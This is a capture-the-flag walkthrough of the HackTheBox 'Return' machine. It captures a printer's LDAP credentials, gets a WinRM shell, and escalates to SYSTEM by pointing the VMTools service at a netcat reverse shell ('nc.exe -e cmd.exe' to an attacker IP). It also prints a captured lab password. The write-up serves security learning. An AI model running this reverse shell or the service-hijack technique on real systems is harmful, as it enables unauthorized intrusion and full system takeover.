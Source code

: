 ```yaml
---
date: 2025-02-27
categories: [CTF, HTB]
title: "HTB - Printer Exploitation Track - Return"
tags: ['printer', 'pjl', 'pret', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Printer Exploitation Track - - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Printer Exploitation Track - Return

NMAP

![image1](../resources/a485efe65dc84739a96132edb84ecf56.png)
 

![image2](../resources/053102acbb3e48238b9bc5576dc43329.png)

Add return.local to /etc/hosts

- Port 80 has a Printer admin page

![image3](../resources/5e7b0c3fc4074a10baada13de954c0ab.png)
- I tried to change the password but it didn't work:

![image4](../resources/359038ff22484e58b445df295b414957.png)

- Then I set up a listener on port 389 and change the Server Address to my tun0:

![image5](../resources/d6d2b94dae3641308fe4689e77948afd.png)


![image6](../resources/7ccc9d61b90647e0a989edb5ec87ca3a.png)

**1edFg43012!!**

- And we have valid creds:

![image7](../resources/7b0731136d2c4fc994506ef8895d1fbb.png)

- Shell with winrm:

![image8](../resources/87a0f29c85014707af0047fbead7523c.png)


![image9](../resources/4f72937c07074628b4897d7214cd044f.png)


![image10](../resources/718e5be9fd7941af86182fe2fe17bb6a.png)


![image11](../resources/f86210aed03448c6bd196ccf175534e9.png)

Modify a service path

- Evil-WinRM has services built in:

![image12](../resources/3147b88ac7384e01b4a59fd50895210e.png)

- We'll choose the VMTools service (as it has privileges) and configure the binary it points to:

```bash
sc.exe config VMTools binPath= "C:\Users\svc-printer\Documents\nc.exe -e C:\WINDOWS\System32\cmd.exe 10.10.14.40 9001"

```

![image13](../resources/c2488860a47f453a825ffa64f802e8a8.png)

- Set up a listener:

```bash
rlwrap -cAr nc -lvnp 9001

```
- Now we stop and start the service with:

```bash
sc.exe stop VMTools

sc.exe start VMTools

```

![image14](../resources/ee6b5b9bf4b34937ba9fa1e96add18a6.png)

- Shell as system:

![image15](../resources/86192510452d44f0bed4ab7f1f2d438e.png)

```bash
type root.txt

```